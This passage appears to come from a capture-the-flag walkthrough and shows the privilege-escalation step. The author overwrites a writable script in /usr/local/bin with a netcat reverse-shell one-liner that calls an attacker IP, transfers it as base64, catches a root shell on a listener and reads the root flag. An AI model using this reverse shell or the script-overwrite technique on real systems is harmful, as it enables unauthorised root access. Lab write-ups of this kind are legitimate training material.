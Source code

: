 Using `ls -lah <FILENAME>` we can check the permissions of the scripts to see if we can overwrite them with our own:

```sh
ls -lah /usr/local/bin/main_backup.sh
```

![a5da721c812dbcab6343630eaf1e56a5.png](/resources/585fccadc0374973af5cfabbf993d99b.png)

Let's overwrite this file using our own bash script to execute a reverse shell. To make this easy, we can create the script on our attacking machine, convert it into base64 then copy the base64 string, decode it and save the file on the victim machine.

Create a new text file with the following code and save it as `main_backup.sh`:

```sh
#!/usr/bin/env bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Then use the [base64](https://linux.die.net/man/1/base64) command to encode the file:

```sh
base64 -w 0 main_backup.sh
```

Start a Netcat listener:

```sh
nc -nvlp 4444
```

On the victim machine, run the following commands:

```sh
cd /usr/local/bin/
echo "<BASE64_STRING>" | base64 -d > main_backup.sh
```

After a minute or so we should have a connection from the victim machine as root on our Netcat listener:

![0aa7987530052213f8f0e148d709fcb3.png](/resources/fe1cf30de13f4511beb22c6d752859ad.png)

We can find the root flag in `/root/root.txt`:

```sh
ls -lah /root
cat /root/root.txt
```

![b40d829cc11d5d3dc10df992f408275c.png](/resources/febed26bee1748cb8b27ab94a2f6a2db.png)
